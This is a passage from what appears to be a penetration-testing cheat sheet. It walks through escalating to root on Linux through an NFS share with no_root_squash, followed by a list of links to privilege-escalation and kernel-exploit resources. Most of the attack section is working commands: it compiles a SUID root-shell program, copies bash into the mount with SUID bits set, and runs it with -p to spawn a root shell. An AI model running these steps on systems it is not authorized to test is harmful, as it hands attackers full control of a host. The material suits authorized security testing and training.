        setresgid(0,0,0);
        system("/bin/bash");
    }


    # gcc -o rootsh rootsh.c
    # cp rootsh /tmp/mount
    # chmod +s /tmp/mount/rootsh

Now, back on the remote host, execute the executable to spawn a root shell:


    $ /tmp/rootsh
    #

Alternatively, on the remote host, copy the /bin/bash or /bin/sh binary to the NFS directory:


    $ cp /bin/bash /tmp

On your local machine, after mounting the NFS share, create new copies of the files (or chown them to root) and set the SUID/SGUID bits:


    # cp bash rootbash
    # chmod +s rootbash

    OR

    # chown root:root bash
    # chmod +s bash

Now, back on the remote host, run the file. For bash / sh, use the -p command line option to preserve the SUID/SGID (otherwise shell will simply spawn as your own user).


    $ /tmp/rootbash -p
    #

    OR

    $ /tmp/bash -p
    #
</details>

##########################
Linux Privilege Escalation
##########################

* https://github.com/mubix/post-exploitation
* https://github.com/spencerdodd/kernelpop
* https://github.com/SecWiki/linux-kernel-exploits
* https://www.google.com/search?q=kernel+exploits
* https://github.com/NullArray/RootHelper
* https://greysec.net/showthread.php?tid=1355
* https://github.com/DominicBreuker/pspy
* https://touhidshaikh.com/blog/?p=790
* http://blog.securelayer7.net/abusing-sudo-advance-linux-privilege-escalation/
* https://gtfobins.github.io/
* https://guif.re/linuxeop
* https://github.com/sagishahar/lpeworkshop
* https://github.com/codingo/OSCP-2
* https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/
* https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
* https://docs.ansible.com/ansible/latest/user_guide/become.html
* https://payatu.com/guide-linux-privilege-escalation/
* https://github.com/Arrexel/phpbash

